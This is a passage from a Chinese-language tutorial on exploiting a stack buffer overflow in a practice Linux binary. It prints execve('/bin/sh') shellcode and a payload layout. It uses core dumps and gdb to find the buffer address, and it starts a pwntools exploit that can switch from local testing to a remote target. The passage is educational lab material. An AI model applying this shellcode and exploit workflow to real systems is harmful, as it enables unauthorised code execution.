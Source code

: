shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
</code>
</pre>
<p nodeIndex="64">这里我们使用一段最简单的执行 <code nodeIndex="168">execve ("/bin/sh")</code> 命令的语句作为shellcode。</p>
<p nodeIndex="65">溢出点有了，shellcode有了，下一步就是控制PC跳转到shellcode的地址上:</p>
<pre class="prettyprint" nodeIndex="66">
<code nodeIndex="169">[shellcode][“AAAAAAAAAAAAAA”….][ret]
^------------------------------------------------|
</code>
</pre>
<p nodeIndex="67">对初学者来说这个shellcode地址的位置其实是一个坑。因为正常的思维是使用gdb调试目标程序，然后查看内存来确定shellcode的位置。但当你真的执行exp的时候你会发现shellcode压根就不在这个地址上！这是为什么呢？原因是gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。怎么解决这个问题呢？</p>
<p nodeIndex="68">最简单的方法就是开启core dump这个功能。</p>
<pre class="prettyprint" nodeIndex="69">
<code nodeIndex="170">#!bash
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
</code>
</pre>
<p nodeIndex="70">开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。</p>
<pre class="prettyprint" nodeIndex="71">
<code nodeIndex="171">#!bash
$./level1 
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

$ gdb level1 /tmp/core.1433844471 
Core was generated by `./level1'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()

(gdb) x/10s $esp-144
0xbffff290:  "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
0xbffff335:  ""
</code>
</pre>
<p nodeIndex="72">因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为0xbffff290。</p>
<p nodeIndex="73">OK，现在溢出点，shellcode和返回值地址都有了，可以开始写exp了。写exp的话，我强烈推荐pwntools这个工具，因为它可以非常方便的做到本地调试和远程攻击的转换。本地测试成功后只需要简单的修改一条语句就可以马上进行远程攻击。</p>
<pre class="prettyprint" nodeIndex="74">
<code nodeIndex="172">#!bash
p = process('./level1')  #本地测试
p = remote('127.0.0.1',10001)  #远程攻击
</code>
</pre>
<p nodeIndex="75">最终本地测试代码如下：</p>
<pre class="prettyprint" nodeIndex="76">
<code nodeIndex="173">#!python
#!/usr/bin/env python
from pwn import *
